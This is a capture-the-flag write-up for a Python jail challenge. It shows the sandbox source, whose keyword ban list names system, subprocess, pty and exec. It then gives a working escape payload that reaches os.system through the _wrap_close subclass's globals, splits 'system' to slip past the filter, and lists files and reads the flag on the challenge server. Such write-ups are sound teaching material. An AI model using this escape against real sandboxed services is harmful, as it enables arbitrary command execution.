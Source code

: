 # pyjail

This was part of the 0x41414141 CTF in January 2021.

![challeng](media/challenge.png)

You can download the source:

```
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

You can see the filtering at play.  You cannot use most python command you'd want to use to read a file.

Found this awesome site:

https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes

Which gives this example:

```
# The os._wrap_close class is usually loaded. Its scope gives direct access to os package (as well as __builtins__)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['system']('ls')
```

We cannot use `system` due to the filtering but we *can* break it into pieces.

```
nc 45.134.3.200 1024
	1. 8.0 (default, Oct 28 2019, 16:14:01)
[GCC 8.3.0]

What would you like to say?
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['sy'+'stem']('ls /')
```

```
app
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
>>>
```

Now we can get the flag:

```
>>> [ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['sy'+'stem']('cat /flag.txt')
flag{l3t's_try_sc0p1ng_th1s_0ne_2390098}
```